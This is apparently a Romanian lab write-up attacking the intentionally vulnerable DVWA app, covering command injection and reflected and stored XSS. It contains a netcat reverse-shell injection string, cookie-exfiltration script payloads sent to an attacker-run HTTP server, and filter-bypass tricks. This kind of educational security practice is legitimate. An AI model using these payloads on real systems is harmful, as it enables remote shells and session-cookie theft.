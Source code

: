 ### Atac HTTP:
  <!-- - [Despre HTTP / HTTPS](https://github.com/Dani780-C/Cyber-security/blob/main/learn/_http_https.md) -->
  - In scop didactic, am folosit **DVWA** (Damn Vulnerable Web App). Pentru instalare si informatii aditionale: [link](https://github.com/digininja/DVWA).
  - Cuprins:
    - [Command Execution](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/http_attack.md#command-execution)
    - [XSS reflected](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/http_attack.md#xss-reflected)
    - [XSS stored](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/http_attack.md#xss-stored)  
 
## **Command Execution**
   - [Despre Command Injection](https://github.com/Dani780-C/Cyber-security/blob/main/learn/command_injection.md)
   - **Not hacked:** *introducem orice adresa IP (ex: 192.168.56.101)*  
   
     Raspuns:  
     ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_execution_normal.png)  
     Captura trafic: [download](https://github.com/Dani780-C/Cyber-security/blob/main/captures/dvwa_command_execution_low_nothacked.pcapng)  
   - **Hacked:**  
   
     **LOW**  
        - Sursa codului PHP:  
        
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/source_code_low_command_execution.png)  
        
        Pentru ca nu avem niciun fel de validare pe input-ul form-ului, putem scrie orice adresa IP urmat de `;` sau `&&`.  
        De exemplu, executia unui reverse shell: intr-un terminal separat se va executa un listener `nc -lvp 4444`, iar in form-ul aplicatiei se va introduce `192.168.56.101; nc -e /bin/bash 192.168.56.101 4444`  
        
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_injection_reverse_shell.png)  
        
        Captura trafic: [download](https://github.com/Dani780-C/Cyber-security/blob/main/captures/dvwa_command_injection_reverse_shell.pcapng)  
       
     **MEDIUM**  
        - Sursa codului PHP:  
         
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_injection_source_code_medium.png)  
        
        Codul PHP respectiv va inspecta string-ul primit din form si va scoate `;` si `&&`. Daca vom scrie `192.168.56.101; ls` nu se va executa comanda. Daca vom scrie `&` vom pune comanda `ping <adresa IP>` in background si astfel se va rula si urmatoarea comanda inlantuita in string-ul input-ului. De exemplu, vom introduce `192.168.56.101 & hostname & ls & pwd`. De asemenea, putem scrie `<orice string, dar nu o adresa IP valida> || ls`.  
        
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_injection_medium_1.png)  
        
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_injection_2.png)  
        
## **XSS (Reflected)**  
  - [Despre XSS](https://github.com/Dani780-C/Cyber-security/blob/main/learn/xss.md)  
  - **Hacked:**  
    
    **LOW**
      - Sursa codului PHP:

      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_xss_reflected_low.png)  
      
      Nu avem validare pe string-ul introdus de user. Putem folosi tag-ul `<script></script>` pentru a injecta cod.  
      Intr-un terminal ne vom rula un server http pe portul 4444: `python -m http.server 4444`.  
      In aplicatia de pe masina Kali vom scrie in form `<script>window.location='http://192.168.56.101:4444/?cookie='+document.cookie</script>` pentru a ne redirectiona pagina catre `http://192.168.56.101:4444` si pentru a ne trimite cookie-urile user-ului.  
       
      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_redirect_page_to_kali.png)  
      
    **MEDIUM**  
       - Sursa codului PHP:  

       ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_source_code_medium_xss_reflected.png)  
       
       Urmatorul cod va scoate toate aparitiile string-ului `<script>` din input.  
       Pentru a putea injecta cod pentru a fi rulat, putem inlocui `<script>` cu `<SCRIPT>` sau `<script>` cu `<scr<script>ipt>`.  
       Spre exemplu, putem injecta: `<SCRIPT>alert(document.cookie)</script>` sau `<scr<script>ipt>alert(document.cookie)</script>`.  
       
       ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_xss_reflected_medium_hacked.png)  

## **XSS (Stored)**  
  - [Despre XSS](https://github.com/Dani780-C/Cyber-security/blob/main/learn/xss.md)  
  - **Hacked:**

    **LOW**  
      - Sursa codului PHP:  

      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_stored_xss_source_code_low.png)  
      
      Nu este nicio validare pe string-ul din form.  
      Intr-un terminal ne vom rula un server http pe portul 4444: `python -m http.server 4444`.  
      In aplicatia de pe masina Kali vom scrie in form in campul message `<script>window.location='http://192.168.56.101:4444/?cookie='+document.cookie</script>` pentru a ne redirectiona pagina catre `http://192.168.56.101:4444` si pentru a ne trimite cookie-urile user-ului.  
      Pe masina cu Windows 11, daca un user acceseaza pagina cu XSS stored, codul i se va executa si lui, iar pagina lui va fi redirectionata la `http://192.168.56.101:4444`.  
      
      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_xss_stored_windows11_cookie.png)  
